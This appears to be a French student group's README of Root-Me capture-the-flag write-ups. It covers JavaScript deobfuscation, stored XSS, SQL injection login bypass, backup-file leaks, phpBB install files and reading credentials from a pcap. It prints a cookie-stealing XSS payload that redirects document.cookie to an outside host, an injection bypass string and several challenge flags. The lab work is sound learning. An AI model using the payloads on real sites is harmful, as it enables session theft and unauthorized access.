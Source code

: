 # RootMe
RootMe du groupe Gabriel C, Benjamin D et Romain M


Challenge client web

Javascript - Obfuscation 3

Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
Idée non concluante  

Deuxième tentative :

Regarder dans le code et je me rend compte que dans tout les cas il indique que le mdp est faux dans il faut rentrer le mdp directement sur la page daceuil .
Lecture de la ligne : « var pass = "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65"; »
Essaie des différents chiffres en tant que mot de passe.
Idée non concluante  

Troisième tentative :

Lecture de la ligne : » p += String.fromCharCode((o = tab2[i])); »
Le « fromCharCode » prouve qu’il y a une conversion d’un type de caractère dans un tableau
Le seul tableau qui me vient a l’esprit c’est la table d’ascii
Je passe cette ligne de nombre dans le tableau et le rentre dans le mot de passe.
« "70,65,85,88,32,80,65,83,83,87,79,82,68,32,72,65,72,65" »
Idée non concluante  

Quatrième tentative :

Je prends cette ligne et fait pareil.
\x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30
Idée non concluante  

Cinquième tentative :

Puis je sélectionne cette ligne et je commence à le convertir en décimal car généralement le code son en décimal.
 « \x35\x35\x2c\x35\x36\x2c\x35\x34\x2c\x37\x39\x2c\x31\x31\x35\x2c\x36\x39\x2c\x31\x31\x34\x2c\x31\x31\x36\x2c\x31\x30\x37\x2c\x34\x39\x2c\x35\x30 »
On obtient 55,56,54,79,115,69,114,116,107,49,5 ce n’est pas le mdp.
Idée non concluante  

Sixième tentative :


Je décide donc d’analyser et d’effectuer un 
console.log(String.fromCharCode(55,56,54,79,115,69,114,116,107,49,50)); » et cela nous donne donc le mdp.
Ce qui donne : 786OsErtk12. 
Chalenge réussi 


XSS - Stockée 1

Première tentative : 

Je regarde dans le code au cas où mais il y a aucun indice contenant le mdp mais je remarque que le champ texte est vulnérable à des injections de balise HTML et permet ainsi l'injection de code. Alors je fais un test en mettant <script>Alert.alert(« yo »)<script> et je suis sur la bonne piste car il affiche un pop-up donc le champ de texte est bien vulnérable à l’ingestion de code.

Bonne piste alors je continue 

Grâce au site : Inspecter les | de requête HTTP Inspecteur de demande (requestinspector.com)
Je peux inspecter les requêtes et obtenir les cookies
  
J’écris cette commande dans le contenue du message est envoie le message :

« <script>window.location="http://sandbox-209707.appspot.com/" + document.cookie;</script> »
Puis inspecter les logs du site et je tombe sur ça :

 

Chalenge réussi 

SQL injection - Authentification
Première tentative :

Essayer différents password de base :
-admin -0000 -1234 -motdepasse -code
On obtient alors une erreur avec le mot clés "near".
Idée non concluante  

Deuxième tentative :

Comme la base de données est une base sql on peux essayer de mettre une balise de commentaire « */ » pour que ca ne prenne pas en compte le contenue de ce commentaire.
Login :  « admin ‘/**/ » 
« ‘ » est ici car c’est username`='XXXX’
Idée non concluante

Troisième tentative :  

Essayer de laisser ouvert la ligne de commentaire pour « supprimer » le mdp ?
Ce qui donnerai « admin' /* » et en mdp n’importe quoi car c’est en commentaire.
Il suffit d’utiliser le même mdp pour valider le défis.

Chalenge réussi 



Web serveur: 

Fichier de sauvegardes :

Le challenge nous mène sur une page dont l’url est la suivante : 
« http://challenge01.root-me.org/web-serveur/ch11/ »

On ajoute à la fin de cet URL “index.php~” qui va donc nous permettre de visualiser le contenu du fichier. 

 

Le mot de passe est donc apparent dans le fichier. 
La solution est   “OCCY9AcNm1tj”.



Install Files:

En observant le code source de la page, on trouve ceci : 

 

Après quelque recherche sur google sur phpbb, je suis tombé sur ca: 

 

J’ai donc ajouté à l’url phpbb/install/ puis suis arrivé sur la page ci-dessous. 

 

Après avoir installé le fichier “install.php”, on obtient le message suivant : 









Réseaux: 

Authentification twitter :

On récupère le document “ch3.pcap” et on l’ouvre avec wireshark. 

On va dans Hypertext Transfer Protocol, puis dans Autorization, ou il y a les lignes Credentials : usertest:password 

Le mot de passe est donc “password”.


